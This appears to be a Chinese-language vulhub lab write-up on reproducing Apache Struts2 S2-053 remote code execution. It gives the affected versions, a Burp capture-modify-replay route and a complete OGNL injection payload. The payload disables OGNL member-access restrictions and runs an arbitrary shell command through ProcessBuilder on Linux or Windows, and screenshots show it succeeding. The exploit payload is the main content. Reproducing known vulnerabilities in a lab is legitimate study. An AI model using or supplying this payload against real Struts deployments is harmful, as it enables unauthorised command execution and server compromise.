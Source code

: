 # Struts2_053_远程代码执行

###### by ADummy

### 0x00利用路线

​			burpuite抓包--->修改payload--->重放包--->代码执行

### 0x01漏洞介绍

​			Struts2在使用Freemarker模板引擎的时候，同时允许解析OGNL表达式。导致用户输入的数据本身不会被OGNL解析，但由于被Freemarker解析一次后变成离开一个表达式，被OGNL解析第二次，导致任意命令执行漏洞。

​			影响版本

  		2.0.1 - 2.3.33      2.5 - 2.5.10

### 0x02漏洞复现

#### payload1(RCE)：

%{(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd=**'id'**).(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(@org.apache.commons.io.IOUtils@toString(#process.getInputStream()))}



​			**访问hello.action界面**

![S2_053_rce_1](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/S2_053_rce_1.jpg)

​			**输入payload，发现命令成功执行**

![S2_053_rce_2](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/S2_053_rce_2.jpg)



### 0x03参考资料

https://blog.csdn.net/qq_29647709/article/details/84955205

